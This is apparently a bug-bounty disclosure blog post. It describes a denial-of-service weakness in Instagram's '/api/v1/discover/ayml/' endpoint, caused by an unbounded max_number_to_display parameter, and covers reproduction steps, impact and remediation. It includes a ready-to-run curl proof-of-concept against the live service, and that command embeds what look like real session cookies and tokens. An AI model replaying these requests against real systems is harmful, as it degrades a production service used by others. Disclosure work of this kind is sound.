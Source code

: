 ```yaml
---
layout: single
title: Instagram - DoS via Unbounded max_number_to_display Parameter AYML API
excerpt: "Denial of Service vulnerability in Instagram causing a specific message thread to become unusable. Out of scope for Meta’s bug bounty program due to available self-mitigation (e.g., deleting the thread)."
date: 2025-07-29
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - Bug Bounty
  - Web
tags:
  - Burpsuite
  - DoS
  - API
---
```



## Summary

A POST request to the endpoint '/api/v1/discover/ayml/' on Instagram accepts a 'max_number_to_display' parameter with no apparent upper bound. By setting this parameter to an extremely large value (e.g., 9999999999), the server takes approximately 20 seconds to respond and returns a 560/566 Internal Server Error.

This behavior can be reliably reproduced and may lead to a resource exhaustion or logical Denial of Service (DoS) condition. An attacker could abuse this with minimal effort to degrade performance or stability of backend components.

## Steps to Reproduce

- Endpoint:

```
POST https://www.instagram.com/api/v1/discover/ayml/
```

- Headers (required):

```
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
```

- Request Body:

```
max_id=%5B%5D&max_number_to_display=9999999999&module=discover_people&paginate=true
```

## Observed Behavior

- The server takes ~20 seconds to respond.

- The response is a 560/566 Internal Server Error.

- The behavior is consistent and reproducible.

- Reducing the number to a reasonable value (e.g., 100) avoids the issue completely.

## Impact

- This vulnerability may allow an attacker to:

	- Generate sustained backend load with low effort.

	- Cause multiple concurrent slow requests that degrade service availability.

	- Perform a logical DoS without triggering WAFs or rate limits (assuming authenticated sessions).

- This also indicates a lack of proper input validation and resource control.

## Suggested Remediation

- Apply strict server-side validation for max_number_to_display to enforce reasonable upper bounds (e.g., max 500).

- Reject or clamp unusually high values to prevent backend overload.

- Log abuse patterns for this parameter to identify potential abuse at scale.

## Proof of Concept Script (bash)

- Proof of Concept

```bash
curl --path-as-is -i -s -k -X POST \
  -H 'Host: www.instagram.com' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'X-Csrftoken: o4KGwJpvN0RZ16gkpviIf86b7gHakMXU' \
  -H 'X-Instagram-Ajax: 1025186983' \
  -H 'X-Ig-App-Id: 936619743392459' \
  -H 'X-Asbd-Id: 359341' \
  -H 'X-Ig-Www-Claim: hmac.AR1AQb6TXgWPd4C48BvCGyASfCm4XqPjjOBfDXuU4qJD68p6' \
  -H 'X-Web-Session-Id: 1pl63y:afuedo:xll9x6' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Origin: https://www.instagram.com' \
  -H 'Referer: https://www.instagram.com/explore/people/' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Te: trailers' \
  -b 'datr=ZmaCaHRv5mShWpLhF76V6FEY; ig_did=16BBD5A7-D00B-450E-89EA-6976AAEAA051; mid=aIJmZgAEAAHV31vsZ0qp1dURspV1; wd=1886x877; csrftoken=o4KGwJpvN0RZ16gkpviIf86b7gHakMXU; sessionid=74249493484%3A2m2JqdQLvaW7ur%3A23%3AAYdFI3BENmvs-DhTggtIVqaMG9eMpWfriBiFPCuNrQ; ds_user_id=74249493484; rur="CLN\05474249493484\0541785089902:01fe120fbf1aa61b7a70f4c73f65ec48549c7b7b91f966037a7303075102815021a6fded"' \
  --data-binary 'max_id=%5B%5D&max_number_to_display=9999999999&module=discover_people&paginate=true&jazoest=22745' \
  'https://www.instagram.com/api/v1/discover/ayml/' \
  -w '\nTotal time: %{time_total} seconds\n'
```

- Output 

![](/img2/Pasted%20image%2020250726235839.png)

- Video

![](/img2/Curl%20Command%20Proof%20Of%20Concept.mp4)

## Proof of Concept BurpSuite

![](/img2/Pasted%20image%2020250729185334.png)

![](/img2/Pasted%20image%2020250729185456.png)

- Video

![](/img2/Burpsuite%20Proof%20Of%20Concept.mp4)